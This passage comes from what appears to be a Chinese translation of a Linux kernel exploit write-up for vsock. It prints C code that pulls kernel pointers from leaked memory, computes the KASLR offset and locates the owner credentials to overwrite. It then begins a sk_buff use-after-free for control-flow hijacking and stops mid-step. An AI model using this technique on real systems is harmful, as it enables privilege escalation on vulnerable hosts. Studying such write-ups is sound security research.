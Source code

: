 尋找攻擊目標
------------

</translate>

<translate> 以下是我找到的點： 1.專用的塊緩存，如PINGv6和sock_inode_cache有很多指向對象的指針 2.struct mem_cgroup \*sk_memcg指針在vsock_sock.sk偏移量664處。 mem_cgroup結構是在kmalloc-4k塊緩存中分配的。 3.const struct cred \*owner指針在vsock_sock.sk偏移量840處，存儲了可以覆蓋進行權限升級的憑證的地址。 4.void (\*sk_write_space)(struct sock \*)函數指針在vsock_sock.sk偏移量688處，被設置為sock_def_write_space()內核函數的地址。它可以用來計算KASLR偏移量。

下面是該漏洞如何從內存中提取這些指針: </translate>

    #define SK_MEMCG_RD_LOCATION    (DATALEN_MSG + SK_MEMCG_OFFSET)
    #define OWNER_CRED_OFFSET    840
    #define OWNER_CRED_RD_LOCATION    (DATALEN_MSG + OWNER_CRED_OFFSET)
    #define SK_WRITE_SPACE_OFFSET    688
    #define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET)
    /*
     * From Linux kernel 5.10.11-200.fc33.x86_64:
     *   function pointer for calculating KASLR secret
     */
    #define SOCK_DEF_WRITE_SPACE    0xffffffff819851b0lu
    unsigned long sk_memcg = 0;
    unsigned long owner_cred = 0;
    unsigned long sock_def_write_space = 0;
    unsigned long kaslr_offset = 0;

    /* ... */

        sk_memcg = kmem[SK_MEMCG_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sk_memcg %lx (offset %ld in the leaked kmem)\n",
                sk_memcg, SK_MEMCG_RD_LOCATION);

        owner_cred = kmem[OWNER_CRED_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found owner cred %lx (offset %ld in the leaked kmem)\n",
                owner_cred, OWNER_CRED_RD_LOCATION);

        sock_def_write_space = kmem[SK_WRITE_SPACE_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sock_def_write_space %lx (offset %ld in the leaked kmem)\n",
                sock_def_write_space, SK_WRITE_SPACE_RD_LOCATION);

        kaslr_offset = sock_def_write_space - SOCK_DEF_WRITE_SPACE;
        printf("[+] Calculated kaslr offset: %lx\n", kaslr_offset);

<translate>

在 sk_buff 上實現 Use-after-free
---------------------------------

</translate>

<translate> Linux內核中與網絡相關的緩衝區用struct sk_buff表示，這個對像中有skb_shared_info與destructor_arg，可以用於控制流劫持。網絡數據和skb_shared_info被放置在由sk_buff.head指向的同一個內核內存塊中。因此，在用戶空間中創建一個2800字節的網絡數據包會使skb_shared_info被分配到kmalloc-4k塊緩存中，mem_cgroup對像也是如此。

我構建了以下步驟：
